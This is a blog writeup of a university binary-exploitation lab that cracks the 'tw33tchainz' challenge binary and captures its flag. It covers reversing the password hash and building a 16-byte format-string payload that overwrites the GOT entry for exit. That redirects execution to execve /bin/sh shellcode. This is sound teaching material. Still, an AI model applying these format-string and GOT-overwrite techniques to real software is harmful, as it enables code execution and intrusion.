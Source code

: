 ```yaml
---
layout: post
title:  "tw33tchainz binary exploitation writeup"
date:   2015-03-18 17:00:00
categories: urxvt terminal ssh
---
```


This semester at RPI I'm taking the class "Modern Binary Exploitation". This
post will detail how I reversed and cracked the **tw33tchainz** binary.

## Understanding tw33tchainz

When we run tw33tchainz the first thing we are presented with is some art and a 
prompt for our username, and salt. upon entering these values we are given a
generated password.
<img src="{{ "/images/tw33tchainz/intro.png" | prepend: site.baseurl }}"/>

afterwards we are given a menu with 4 options, labelled 1, 2, 4, and 5. the
option labelled '3' is missing. Naturally I entered into the prompt 3, then I
was asked to enter a password, my guess was incorrect.

<img src="{{ "/images/tw33tchainz/menu.png" | prepend: site.baseurl }}"/>

Option 1 lets us enter a tweet which gets stored somewhere, and is appended to
the penguin's beak the next time the menu is output to our term.

<img src="{{ "/images/tw33tchainz/tweet.png" | prepend: site.baseurl }}"/>

Option 2 lets us view all of our previous tweets.

Option 4 simply prints out the ascii art that's on top of the menu. ( looks like
a mallet smashing a sombrero, or maybe a bird? nah... )

Option 5 quits the program.

## Digging deeper

I decided a good first step would be to map out all the functions defined in the
binary, I did this through the use of gdb

{% highlight bash %}
project1@warzone:/levels/project1$ echo "disas main" | gdbpeda tw33tchainz | grep "call" | grep -v "@plt"
   0x08048e7f <+155>:	call   0x8048fac <print_banner>
   0x08048e84 <+160>:	call   0x804886c <gen_pass>
   0x08048e89 <+165>:	call   0x8048923 <gen_user>
   0x08048eb4 <+208>:	call   0x8048fac <print_banner>
   0x08048eb9 <+213>:	call   0x8048a34 <print_menu>
   0x08048f27 <+323>:	call   0x8048c0e <do_tweet>
   0x08048f2e <+330>:	call   0x8048bcd <view_chainz>
   0x08048f35 <+337>:	call   0x8048d40 <maybe_admin>
   0x08048f48 <+356>:	call   0x8048fac <print_banner>
   0x08048f4f <+363>:	call   0x8048fc1 <print_exit>
{% endhighlight %}
<br>


I then ran the same command for each function in the output.

a quick checksec shows us that RELRO isn't full, therefore we can overwrite to
the GOT.
{% highlight text %}
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
{% endhighlight %}
<br>

From here I wanted to see if there were any vulnerable printf statements that
would let me make arbitrary memory writes.

I was looking for printfs that touched user input, in the entire program there
are only two locations where these reside: **print_menu**, and **view_chainz**.
I started by going through each printf statement in **print_menu** and surely
enough there is printf which takes the previous tweet and uses it as the first
argument, a cardinal sin.

Unfortunately the block of code containing the vulnerable printf looks like
this:

{% highlight asm %}
0x08048a84 <+80>:	movzx  eax,BYTE PTR ds:0x804c0a8
0x08048a8b <+87>:	test   al,al
0x08048a8d <+89>:	je     0x8048ab4 <print_menu+128>
0x08048a8f <+91>:	mov    DWORD PTR [esp],0x8049143
0x08048a96 <+98>:	call   0x80485d0 <printf@plt>
0x08048a9b <+103>:	lea    eax,[ebp-0x19]
0x08048a9e <+106>:	mov    DWORD PTR [esp],eax
0x08048aa1 <+109>:	call   0x80485d0 <printf@plt>
{% endhighlight %}
<br>

the first three lines there check to see if you are admin. If **0x804c0a8** is
0 then you are not admin, if either of the bottom 2 bytes are non-zero then you
are considered an admin.

the vulnerable printf cannot be reached unless we're set to admin. So the next
step is to figure out what the correct password for option 3 is.

taking a look at the **gen_pass** function I see that it simply reads 16 bytes
from /dev/urandom, these 16 random bytes are the password required for option
3.

**gen_user** does the following

1. memset the salt with 16 bytes of 0xba
2. memset the user with 16 bytes of 0xcc
3. read 16 bytes into user
4. read 16 bytes into salt
5. call the hash function

**hash** then creates the generated password like so

1. byte wise addition between the salt and the secret password
2. xors that new value with the user

then later down in **gen_user** it calls **print_pass** which outputs the
generated password as hex.

in **print_pass**
{% highlight asm %}
0x08048851 <+52>:	mov    DWORD PTR [esp],0x8049070
0x08048858 <+59>:	call   0x80485d0 <printf@plt>
{% endhighlight %}
<br>
value at **0x08049070**
{% highlight asm %}
0x08049070 : 25 30 38 78 25 30 38 78 25 30 38 78 25 30 38 78   %08x%08x%08x%08x
{% endhighlight %}
<br>

given this, with a carefully chosen user and salt, we can easily recover the
secret pass from the generated pass that we are given.

I chose to use 15 of 0x01 for the user and 15 of 0xff for the salt, I'm using 15
instead of 16 because in gdb I saw that fgets adds a null terminator as the 16th
byte in each.

with these values I know that when we're adding the secret password to 0xff the
value will overflow and be 1 less than the original value.

afterwards when we xor this with the value 0x01 that will turn even numbers odd,
one greater than the original value, and odd numbers even, one less than the
original value.

for example if the secret byte was 0x55, when that's added to 0xff we end up with
the value 0x54, which then turns back into 0x55 after we xor it with 0x01.

further if the secret byte was 0x56, when that's added to 0xff we end up with
the value 0x55, which turns into 0x54 after we xor it with 0x01.

this means that in our generated password, we simply add 2 to the even bytes, and
leave the odd bytes unchanged. except for the last byte, which was null. The last
byte remains unchanged from the secret password.

I wrote a python script which takes the generated password as a command line
argument and returns the secret password.

[decode_pass.py](https://gist.github.com/Newbrict/feab6f9f04de36dac453)

<br>
**Success!**, now that we're admin we have a menu option labelled 6, and more
importantly, access to the vulnerable printf statement in **print_menu**
<img src="{{ "/images/tw33tchainz/admin.png" | prepend: site.baseurl }}"/>

since tweets are limited to 16 characters, the format string for the exploit
must be this length.

in gdb I noticed that the stack is actually misalighned by 1 byte so the first
character of the format string will be used to realign it.

{% highlight bash%}
tweet="A"
{% endhighlight %}
This means we have 15 bytes remaining for an arbitrary write.

First thing's first, we need the address to write to, this will consume 4 more
bytes which leaves us 11 bytes for **%x** and **%n** to actually write the value.

With 11 bytes there is simply not enough room for enough **%x** tokens to get to
the address on the stack, which means I'll have to use direct parameter access.
with all the required characters our tweet format looks like this

{% highlight bash%}
tweet="A....%???x%#$hhn"
{% endhighlight %}
**....** will be the address

The only thing left is to determine what values to substitute for **???**, and
which parameter **#** will be.

looking at the stack I can see that **#** has to be 8.

when doing some test writes in gdb I can see that whatever value I put in for
**???** will be written to memory as 5 higher than the original value which
means I just simply subtract 5 from the value I want to write and then the
correct value will be written. This works unless the value I want to write is
less than 5 since I can't write a negative number of bytes. To mediate this I
simply add 256 to every value which lets it overflow cleanly into the correct
value.

The final anatomy of a malicious tweet which writes the value **0x10** to the
location **0x43434343** looks like this.

{% highlight bash%}
tweet="ACCCC%267x%8$hhn"
{% endhighlight %}

Now it's just a matter of finding a location to write my shellcode, then writing
it, overwriting exit to point to that location ( Thanks RELRO! ) and cat'ing the
password :)

I used the **execve("/bin/sh")** shellcode found
[here](http://shell-storm.org/shellcode/files/shellcode-811.php)

and formatted it to be more easily readable by my final script:
[binsh.hex](https://gist.github.com/Newbrict/99fe72f72326d392636d)

I wrote a python script to create the format string given the address to write
to, the tweet number, and the value to write:
[get_tweet.py](https://gist.github.com/Newbrict/d593e6f80ec39b78c075)

and my final driver to input all this to the program, and cat the password is
written in bash: [driver.sh](https://gist.github.com/Newbrict/cc327dc28a455ae62f29)

## Results

{% highlight bash %}
$ ./driver.sh
...
...
Enter Choice: m0_tw33ts_m0_ch4inz_n0_m0n3y
{% endhighlight %}
